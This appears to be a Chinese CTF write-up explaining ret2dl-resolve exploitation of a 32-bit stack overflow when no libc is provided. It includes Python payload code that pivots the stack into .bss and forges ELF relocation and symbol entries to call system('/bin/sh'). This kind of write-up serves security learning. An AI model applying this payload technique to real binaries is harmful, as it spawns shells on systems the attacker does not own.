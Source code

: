 明显的栈溢出，但是没给libc，ROPgadget也少，所以要用ret2dl\-resolve。

利用思路如下:

1. 第一次调用`read`函数，返回地址再溢出成`read`函数，这次参数给一个`.bss`的地址，里面放我们的payload，包括所有伪造的数据结构以及ROP。注意ROP要放在数据结构的前面，不然ROP调用时有可能污染我们伪造的数据结构，而且前面要预留一段空间给ROP所调用的函数用。调用完第二个`read`之后，ROP到`leave; retn`的地址，以便切栈切到在`.bss`中我们构造的下一个ROP链

   ```python
   payload1 = "A" * 108
   payload1 += p32(NEXT_ROP) # ebp会在这里被pop出来，到时候leave就可以切栈
   payload1 += p32(READ_ADDR)
   payload1 += p32(LEAVE_RETN)
   payload1 += p32(0)
   payload1 += p32(BUFFER - ROP_SIZE)
   payload1 += p32(0x100)
   payload1 += "P" * (0x100 - len(payload1))
   sh.send(payload1)
   ```

2. 第二次调用`read`函数，此时要`send`ROP链以及所有相关的伪造数据结构

```python

fake_Elf32_Rel = p32(STRLEN_GOT)
fake_Elf32_Rel += p32(FAKE_SYMTAB_IDX)

fake_Elf32_Sym = p32(FAKE_STR_OFF)
fake_Elf32_Sym += p32(0)
fake_Elf32_Sym += p32(0)
fake_Elf32_Sym += chr(0x12) + chr(0) + p16(0) # 其它字段直接照抄IDA里面的数据就好

strings = "system\x00/bin/sh\x00\x00"

rop = p32(0) # pop ebp, 随便设反正不用了
rop += p32(DYN_RESOL_PLT) # resolve的PLT，就是前面说的push link_map那个位置
rop += p32(FAKE_REL_OFF) # 伪造的重定位表OFFSET
rop += "AAAA" # 返回地址，不用了随便设
rop += p32(BIN_SH_ADDR) # 参数，"/bin/sh"

payload2 = rop + fake_Elf32_Rel + fake_Elf32_Sym + strings

sh.send(payload2)
```

至于offset这些东西要自己慢慢撸，反正我搞了挺久的。。。就在IDA里把地址copy出来然后慢慢算偏移就好了。。。

完整exp写的有点丑，放附件了。

PS: 其他一些大佬博客的exp我没有很看懂。。。不知道为啥要写那么长。。。我是弄懂了方法就按照自己的思路写的，不过也对就是了。。。

然后貌似有个自动得出ROP的工具叫作[roputils](https://github.com/inaz2/roputils)，这样就不用自己搞这么一串ROP了。。。不过用工具前还是要先搞懂原理的不然就成脚本小子了嘛。。。

## 伪造link_map?
